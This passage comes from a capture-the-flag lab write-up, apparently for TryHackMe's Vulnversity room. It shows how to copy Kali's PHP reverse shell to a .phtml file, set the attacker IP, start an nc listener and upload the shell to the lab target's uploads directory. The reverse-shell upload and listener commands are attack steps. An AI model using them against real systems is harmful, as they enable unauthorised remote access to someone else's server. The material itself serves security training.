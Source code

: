 With this information we can attempt to upload a reverse shell on the target machine and obtain RCE.  
We use a php shell already available on Kali: _/usr/share/webshells/php/php-reverse-shell.php_.

Run the following:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php /tmp/shell.phtml
```

Edit the /tmp/shell.phtml with your favorite editor

![shellfile](../assets/images/tryhackme/offensive_pentesting/vulnversity/shellfile.png)

We need to change the $ip variable with the ip of our own attackbox.  
Remember: in a reverse shell the target initiates a connection to our own machine on a port where we are listening, hence it needs to know our ip.

Start the listener on our own machine:

```bash
root@ip-10-10-14-221: nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
```

Upload the shell file on the target

![shellfile](../assets/images/tryhackme/offensive_pentesting/vulnversity/upload_success.png)

Go to _http://10.10.209.195:3333/internal/uploads/_
